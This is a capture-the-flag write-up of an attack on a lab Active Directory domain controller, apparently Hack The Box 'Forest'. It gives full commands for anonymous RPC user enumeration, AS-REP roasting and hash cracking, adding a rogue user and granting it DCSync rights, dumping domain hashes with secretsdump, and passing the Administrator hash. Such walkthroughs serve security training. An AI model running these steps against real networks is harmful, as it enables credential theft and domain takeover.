# Enumeration

As with every assessment, I split the port scanning phase into two stages, a quick port scan using `rustscan`, followed by a more thorough service scan using `nmap`, since full `nmap` scans can be time-consuming.

Port scan:
```bash
> rustscan -a <ip>
```



We can then run a service scan and enumeration scripts only against these specific ports, which saves a significant amount of time.

Service Scan:
```bash
> sudo nmap -p 53,88,135,139,389,445,464,593,636,3268,3269,5985 -sCV -oN forest.nmap
```



This is a windows machine, most likely a `DC` . 
We can enumerate the computer name to be `forest`, and its part of the `HTB.local` domain.


## General Scans :

Lets use the `enum4linux-ng` tool. This is a great Windows enumeration tool that covers many enumeration paths in a short amount of time. The tool runs several commands that query services such as SMB, LDAP, RPC, and others.

```bash
> enum4linux-ng -A 10.129.95.210
```



We can fine the same information about the `FQDN` and domain name using `enum4linux`.



Scrolling in the output, and this tool was able to list domain users via `rpc`, lets replicate this step to get a user list.



## Port 53:

I want to check port `53` before i move on, i try to resolve `htb.local` for any records and i find a few.

```bash
> dig any @10.129.95.210 htb.local
```



However, the zone transfer (AXFR) attempt failed:

```bash
dig axfr @10.129.95.210 htb.local
```




# `RPC` Enumeration

The Remote Procedure Call (`RPC`) protocol uses several connection mechanisms and can be accessed via named pipes which are stored in the `IPC$` directory as part of the `smb` implementation. As we saw in output of the `enum4linux`, this `IPC$` directory is accessible to us via anonymous login, we can interact with these named pipes to extract a lot of information, like user names, groups, password policy, domain information and more.
Many tools automate this process and provide an easy interface to interact with named pipes through pre-built functions for specific tasks. For example, `nxc` is very easy to use, while `rpcclient` provides a large number of built-in `RPC` commands.

Using `nxc` we can confirm that this machine is indeed allows  anonymous connection.

```bash
> nxc smb 10.129.95.210 -u '' -p ''
```



Listing shares on this machine is not allowed.

```bash
> nxc smb 10.129.95.210 -u '' -p '' --shares
```



However, listing users is indeed possible.

```bash
> nxc smb 10.129.95.210 -u '' -p '' --users
```




`rpcclient` is a great tool with a lot of built in functions, and can really helpful in situations like this, it was easier to confirm this machine is "vulnerable" with `enum4linux`, but i prefer to initially to work with the `rpcclient` output. Here i use the tool with `-N` for no pass, and `-U` with empty credentials. This opens an interactive session where RPC commands can be executed.

```bash 
> rpcclient -U "" -N 10.129.95.210
```

After having a session with the remote machine we can execute `enumdomusers` command to list users on the machine. 

```bash
> enumdomusers
```



This is the the same list we obtained with prior tools, but this output is the easiest to work with. Using this output, I want to create a user list that can later be used for password spraying or attacks such as AS-REP roasting. With this output i can just copy and paste this into a new note, and use a python script to extract the names into a proper user-list.

I built this python script, the `extract_users` function utilizes regex to return a list of names which are later printed to a file called `users`.

```python
#!/usr/bin/env python3

import re
import sys

pattern = re.compile(r"user:\[(.*?)\]")

def extract_users(lines):
    users = []
    for line in lines:
        match = pattern.search(line)
        if match:
            users.append(match.group(1))
    return users


def main():
    with open(sys.argv[1], "r") as f:
            lines = f.readlines()
    users = extract_users(lines)

    # remove duplicates and sort
    users = sorted(set(users))

    with open('users',"a",encoding="utf-8") as out:
        for user in users:
            out.write(f'{user}\n')

if __name__ == "__main__":
    main()
```

After running the script we can see the following file:



We can use this user for many things.


### AS-REP roasting

I already covered the theory behind `as-rep roasting` in my last wtiteup,  but in short, some users may be configured with the `DONT_REQ_PREAUTH `flag, which allows an attacker to request a `Kerberos` authentication response without providing a password, later we can try to crack the hash.

The `impacket-GetNPUsers` tool by `impacket` takes the user list we made and check if each user has this configuration set for him, if so, the tool returns the corresponding hash.

```bash
> impacket-GetNPUsers HTB.LOCAL/ -dc-ip 10.129.95.210 -no-pass -usersfile users
```



One user hash this configuration set and this is the `svc_alfresco` user. 


Copy the hash into a file, so we can crack it.
 


Then we use `hashcat` to crack the hash, i use the `rockyou` wordlist here and specify `-m 18200` for `as-rep` hash type.

```bash
> hashcat -m 18200 hash /usr/share/wordlists/rockyou.txt
```



The hash was cracked successfully, revealing the password `s3rvice`., we can confirm this user is valid with `nxc`:

```bash
> nxc smb 10.129.95.210 -u 'svc-alfresco' -p 's3rvice'
```



The user can also authenticate via `WinRM`:

```bash
> nxc winrm 10.129.95.210 -u 'svc-alfresco' -p 's3rvice'
```




**Enumeration Summery  :** The assessment started with `nmap` scan to find open ports and the to confirm and validate service running on the machine, anonymous `smb` permissions was discovered and was abused to get a user list using the `rpc` protocol over the `ipc$` shares named pipes. We found one of these users is allowed to get kerberos `TGT` ticket without entering password , the user password hash was extracted from the ticket and then later cracked offline using `hashcat`, to get a first valid user `svc_alfreso:s3rvice`.


## Initial Connection 

We can use `evil-winrm` to connect to the machine with the new user.

```
evil-winrm -i 10.129.95.210 -u 'svc-alfresco' -p 's3rvice'
```



# DACL abuse

Since this is a domain environment, this user might have DACL permissions that can be abused to move laterally in the domain or potentially escalate privileges. For this i'll use `bloodhound`, i all ready showcased the tool in some previous write-up, so I will only briefly describe the process here. `BloodHound` works by first running a collector that gathers information about the domain, such as users, groups, computers, and the relationships between them.

My first attempt was with`sharphound`, which is a `c#` option that is well suited for a situation like this where i have a full shell on the machine, i can upload the binary with `win-rm` upload functionality.

```bash
> upload SharpHound.exe
```



After binary execution it was discovered that the `.net` version was not compatible with the system version.

```bash
> .\SharpHound.exe -c All
```



`bloodhound-python` is another option. It is a remote collector that gathers the same domain information without requiring execution on the target host.

```bash
> bloodhound-python -d HTB.LOCAL -u svc-alfresco -p s3rvice -c All --zip -ns 10.129.95.210
```



After running the command, a .zip file is generated containing the collected data, which can be imported into `bloodHound`. To start `bloodhound` on `kali` linux we can just execute:

```bash
> bloodhound
```

When `bloodhound` server is up we can upload the zip file we have received with `bloodhound-python.`



We can use the search bar the find our user `svc-alfresco`


It seems this user has some outbound permissions over another objects :




The user `svc-alfresco` is part of the `service accounts` group which is member of the `privileged IT accouns` group which is member of the `account opercccators` group,This effectively means that  `svc-alfresco` inherits the permissions of the `Account Operators` group. The `account operators` groups has `generic all` permissions over multiple groups in the domain and several users but not a single administrative user.  




One of the groups that `Account Operators` has `GenericAll` permissions over is `Exchange Windows Permissions.` This is a highly privileged group in many domain environments.

AD-Security:
```
"The Exchange Windows Permissions group is a highly privileged Active Directory group that allows Exchange servers (via the Exchange Trusted Subsystem member) to manage Active Directory objects, including modifying domain DACLs (WriteDacl) and potentially executing DCSync attacks to steal hashed passwords."
```

It means that members of this group can potentially perform a `DCSync` attack and achieve domain admin. We can confirm this using bloodhound, we can see this group has `WriteDacl` over the domain, using this we can grant any user `dcsync` abilities.




So we have a user - `svc-alfresco`, which can use the `account operators` group permissions to add himself to the `Exchange Windows Permissions` group. As part of the group it can grant itself `dcsync` privileges and get domain admin. Lets start by first adding the svc-alfresco user to the `Exchange Windows Permissions` group, I ran the following `net` command and got the assumption that the user was indeed added to the group:

```bash
> net group /domain "Exchange Windows Permissions" svc-alfresco /add
```



The second step is to add the `dcsync` permissions, we can use `bloody-AD` for this  but first execution of the script failed due to insufficient writes.

```bash
> bloodyAD --host "10.129.95.210" -d "htb.local" -u "svc_alfresco" -p "s3rvice" add dcsync "svc_alfresco"
```



I went back to the `winrm` connection and noticed the user was never added to the group in the first place, I guess there is some problem with adding this user into the group.




I tried to crate a new user and add him to the group. I created a user named `hacker` using the net command:

```bash
> net user hacker password /add
```



Then add the user using the same command as before:

```bash
> net group "Exchange Windows Permissions" hacker /add
```



As you can see this user was indeed added to the group:

```bash
> net user /domain  hacker
```



Now we can run the `bloody-ad` command, and we get the output that the user was successfully granted with the new privilege to `dcsync.

```bash
> bloodyAD --host "10.129.95.210" -d "htb.local" -u "hacker" -p "password" add dcsync "hacker"
```




## DC-Sync

To perform the `DCsync` attack we use `impackets`  - `secretsdump`. This retrieves domain credential data, including password hashes for all domain users.

```bash
> impacket-secretsdump HTB.LOCAL/hacker:'password'@10.129.95.210
```



Using the Administrator `NTLM` hash we can authenticate via `WinRM`:

```bash
> evil-winrm -i 10.129.95.210 -u administrator -H 32693b11e6aa90eb43d32c72a07ceea6
```

